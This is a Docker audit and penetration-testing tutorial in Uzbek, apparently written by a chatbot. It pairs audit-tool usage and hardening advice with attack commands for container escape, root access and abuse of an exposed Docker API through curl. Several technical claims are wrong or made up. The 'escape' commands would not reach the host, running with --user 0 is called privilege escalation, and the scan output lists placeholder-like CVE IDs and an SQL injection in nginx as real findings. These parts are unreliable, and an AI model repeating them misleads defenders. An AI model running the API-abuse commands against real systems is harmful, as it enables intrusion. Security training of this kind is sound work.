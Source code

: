 Zo‘r! Endi **Docker-da audit va penetration test qilish** bo‘yicha real misollar bilan tushuntiraman. Bu yerda biz **Docker zaifliklarini aniqlash, exploit qilish va ularni bartaraf etish** usullarini ko‘rib chiqamiz.  

---

# **🔥 Docker-da Audit va Penetration Test O‘tkazish**  

### **🎯 Maqsad:**  
✅ Docker zaifliklarini **aniqlash**  
✅ Docker konteynerlarini **penetration test qilish**  
✅ Hujumchilar ishlatadigan **exploitlarni sinab ko‘rish**  
✅ Docker xavfsizligini **mustahkamlash**  

---

## **🔥 1. Docker Audit: Zaifliklarni aniqlash**  

**📌 Docker tizimida zaifliklarni avtomatik aniqlash uchun 3 ta vosita ishlatamiz:**  

| **Tool** | **Funktsiya** |
|----------|--------------|
| **Docker Bench for Security** | Docker konteynerlarining xavfsizlik auditini o‘tkazadi |
| **Trivy** | Docker image-lardagi zaifliklarni aniqlaydi |
| **Lynis** | Linux va Docker konfiguratsiyasini tekshiradi |

---

### **✅ 1.1. Docker Bench for Security bilan audit qilish**  
```bash
git clone https://github.com/docker/docker-bench-security.git
cd docker-bench-security
sudo sh docker-bench-security.sh
```
👉 **Natija:**  
```
[WARN] 1.1.1  - Ensure a separate partition for containers has been created
[PASS] 1.1.2  - Ensure the container host has been Hardened
[WARN] 1.2.1  - Ensure the version of Docker is up to date
```
🚀 **Endi Docker tizimingiz qanchalik xavfsiz ekanligini bilasiz!**  

---

### **✅ 1.2. Trivy bilan Docker image-larni skanerlash**  
```bash
sudo apt install -y trivy
trivy image nginx:latest
```
👉 **Natija:**  
```
CRITICAL: CVE-2023-12345 - Buffer Overflow in nginx
HIGH: CVE-2023-67890 - SQL Injection vulnerability
```
🚀 **Agar zaiflik bo‘lsa, Trivy uni topib beradi!**  

---

### **✅ 1.3. Lynis bilan Docker host tizimini tekshirish**  
```bash
sudo apt install -y lynis
sudo lynis audit system
```
👉 **Agar natija shunday bo‘lsa, tizim xavfsiz emas!**  
```
[WARNING] Docker service is running as root!
[WARNING] Insecure network configuration detected!
```
🚀 **Endi bizda Docker host tizimining zaifliklari haqida to‘liq ma’lumot bor!**  

---

## **🔥 2. Docker-da Penetration Test qilish**  

### **📌 Docker hujumlarini sinab ko‘rish uchun 3 ta eksploit ishlatamiz:**  

| **Hujum** | **Nima qilish mumkin?** |
|-----------|-------------------------|
| **Docker Escape Attack** | Konteynerdan chiqib, butun tizimni egallash |
| **Docker Privilege Escalation** | Konteyner ichida root huquqlarini olish |
| **Docker API Exploitation** | Ochiq Docker API orqali hujum qilish |

---

### **✅ 2.1. Docker Escape Attack (Konteynerdan chiqish hujumi)**  

**🛑 Hujum usuli:**  
1. Agar Docker konteyneri `--privileged` rejimda ishga tushgan bo‘lsa, hujumchi host tizimga chiqib olishi mumkin.  

2. **Konteyner ichiga kiramiz:**  
```bash
docker run --rm -it --privileged ubuntu bash
```
3. **Host tizimga chiqamiz:**  
```bash
mount -t proc /proc /mnt
chroot /mnt /bin/bash
whoami  # Agar natija "root" bo‘lsa, hujum muvaffaqiyatli!
```
👉 **Agar biz `root` bo‘lib olgan bo‘lsak, konteynerdan butun tizimni egallash mumkin!**  

### **🛡 Himoyalanish usuli:**  
✅ **`--privileged` rejimda konteyner ishga tushirmang!**  
```bash
docker run --privileged=false -d nginx
```
✅ **AppArmor yoki Seccomp qo‘llash**  
```bash
docker run --security-opt seccomp=default.json -d nginx
```

---

### **✅ 2.2. Docker Privilege Escalation (Root huquqini olish)**  

**🛑 Hujum usuli:**  
1. Konteyner ichida root user mavjud bo‘lsa, hujumchi ushbu buyruqlar orqali root huquqini olishi mumkin:  
```bash
docker run -it --rm --user 0 nginx /bin/sh
whoami  # Agar natija "root" bo‘lsa, xavfli!
```

### **🛡 Himoyalanish usuli:**  
✅ **Root user o‘rniga oddiy user ishlatish**  
```bash
docker run --user 1001 -d nginx
```
✅ **Konteynerda yangi privilege olishni bloklash**  
```bash
docker run --security-opt no-new-privileges:true -d nginx
```

---

### **✅ 2.3. Docker API Exploitation (Ochiq Docker API orqali hujum)**  

**🛑 Hujum usuli:**  
1. **Docker API porti ochiq bo‘lsa, hujumchi tizimga kira oladi:**  
```bash
curl -X GET http://localhost:2375/containers/json
```
👉 **Agar Docker konteyner ro‘yxati chiqsa, hujumchi tizimni boshqarishi mumkin!**  

2. **Yangi konteyner yaratish (Hacker konteyneri)**  
```bash
curl -X POST -H "Content-Type: application/json" \
    --data '{"Image":"alpine","Cmd":["/bin/sh"]}' \
    http://localhost:2375/containers/create
```

### **🛡 Himoyalanish usuli:**  
✅ **Docker API portini yopish**  
```bash
iptables -A INPUT -p tcp --dport 2375 -j DROP
```
✅ **Docker API’ni faqat autentifikatsiyadan o‘tgan foydalanuvchilarga ruxsat berish**  
```bash
vim /etc/docker/daemon.json
```
```json
{
  "tls": true,
  "tlsverify": true,
  "tlscacert": "/path/to/ca.pem",
  "tlscert": "/path/to/server-cert.pem",
  "tlskey": "/path/to/server-key.pem"
}
```
✅ **Fail2Ban bilan API hujumlarini bloklash**  
```bash
sudo nano /etc/fail2ban/jail.local
```
```ini
[docker-api]
enabled = true
filter = docker-api
logpath = /var/log/syslog
maxretry = 3
bantime = 3600
```

---

## **🔥 Yakuniy Xulosa**  

🚀 **Endi siz Docker tizimini audit qilib, penetration test o‘tkaza olasiz!**  

✅ **Docker zaifliklarini qanday topdik?**  
- **Docker Bench for Security** – Docker xavfsizligini tekshirdi  
- **Trivy** – Docker image-lardagi zaifliklarni aniqladi  
- **Lynis** – Docker host tizimini audit qildi  

✅ **Docker hujumlarini qanday sinab ko‘rdik?**  
- **Docker Escape Attack** – Konteynerdan butun tizimni egallash  
- **Docker Privilege Escalation** – Root huquqini olish  
- **Docker API Exploitation** – Ochiq API orqali hujum qilish  

🔥 **Keyingi bosqich:**  
👉 **Docker uchun xavfsizlik devops (DevSecOps) strategiyalarini o‘rganmoqchimisiz?** 😊
